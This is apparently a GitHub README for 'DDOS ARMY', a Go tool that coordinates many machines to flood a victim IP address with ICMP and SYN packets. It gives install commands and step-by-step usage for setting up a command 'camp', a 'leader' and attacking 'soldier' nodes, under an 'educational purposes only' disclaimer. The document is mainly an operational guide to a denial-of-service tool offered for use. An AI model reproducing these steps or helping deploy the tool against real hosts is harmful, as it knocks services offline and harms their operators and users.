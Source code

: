 # DDOS ARMY


![](img/ddosarmydemo.gif)


## What is DDOS ARMY?
ddosarmy is a tool that allows
you to launch a DDoS attack on IP victim address,
with other machines synchronously.

### ⚠️ DISCLAIMER ⚠️:
️ It is intended to be used for educational purposes only.
I am not responsible for any misuse or damage caused by this program.
## Features
* 🏕️ Support clustering attack concept 
* 💣 Support ICMP, SYN flood attack (more to come)
* ⛓️ Support concurrency and parallelism
* Cross-platform (Linux 💀, Windows 🪟, Mac OS X🍏, BSD)
* ⚙️ Easy Army management (stop, start, shutdown, change attack strategy, etc.)
* ✅ Friendly terminal user interface
* 📈 Profiling and benchmarking requests for each soldier (node)
## Installation

### binary (recommended)
```bash
go install github.com/XORbit01/ddosarmy@latest 
```
you can download the binary from 
[Releases](https://github.com/XORbit01/DDOS-ARMY/releases/tag/v0.0.3)


### From source
```bash
git clone https://github.com/XORbit01/DDOS-ARMY 
cd ddosarmy
go build -o ddosarmy 
```

## Usage
```bash
ddosarmy -h
```

## steps
### 1. create army camp
this must be hosted on a server with public ip address, so that the soldiers can connect to it.
```bash
ddosarmy camp -v <victim_ip>
```
### 2. leader access camp
leader is the node that will orchestrate the army and send the attack commands to the soldiers.
```bash
ddosarmy leader -c <camp_ip> -s password
```
the default password is `password`, this password is set when you created the camp
### 3. soldiers access camp
the soldiers are the nodes responsible for sending dummy packets flooding the victim ip address.
it will listen to the leader node and execute the attack commands.
```bashq
ddosarmy soldier -c <camp_ip>  
```


## How it works
as you can see in the image below, the leader node is responsible for sending the attack commands to the soldiers.
the dispatcher (camp) is responsible for sending the attack commands to the soldiers.
he is not responsible for sending the single packets to the victim ip address.

![How it works](img/howitworks.jpg)


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.
you can also contact me on discord:`XORbit#5945`